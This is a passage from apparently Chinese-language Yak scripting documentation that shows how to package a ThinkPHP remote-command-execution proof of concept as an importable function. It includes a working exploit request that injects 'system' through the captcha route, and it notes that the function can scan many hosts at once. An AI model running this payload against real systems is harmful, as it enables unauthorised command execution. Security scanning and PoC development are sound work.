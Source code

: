 :::

### 其次我们解决批量调用的问题，函数化+模块化

函数/模块化我们需要用到的核心功能是 [Yak 中的 `import` 函数](/docs/yak-basic/modules) 

根据我们的 `import` 的全局函数，我们可以把我们的代码，封装成为一个可供别的脚本调用的函数，使用 `cli` 来接受用户输入的参数。

```go title="thinkphp-poc.yak"
def poc(host, port) {
   fReq, err := fuzz.HTTPRequest(`
   POST /index.php?s=captcha HTTP/1.1
   Host: localhost:8080
   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 72
   
   _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
   `)
   if err != nil {
       log.error(err)
       return false
   }
   
   rsp, err := fReq.FuzzHTTPHeader("Host", sprintf("{{net(%v)}}:{{port(%v)}}", host, port)).FuzzPostParams("server[REQUEST_METHOD]", ["id", "uname"]).Exec()
   if err != nil {
      log.error(err)
      return false
   }
   
   // match result
   // 
   //  DO Something
   return true
}

if YAK_MAIN {
   poc(cli.String("target"), cli.String("port"))
}
```

我们通过上述简单的处理，就可以做到封装一个 PoC，任何 Yak 脚本都可以通过 `import("thinkphp-poc", "poc")` 来导入执行函数，然后直接执行上述函数。

同时由于我们使用 `fuzz` 模块去模糊化了 `Host` 我们可以很轻易实现针对多个目标同时进行扫描。

## 结语

我们希望编写 Yak PoC 是一个包容的过程，我们不会限制用户的格式，也不需要用户自己去做复杂的依赖管理，遵循 Yak 的语法即可。

总之 Happy Game!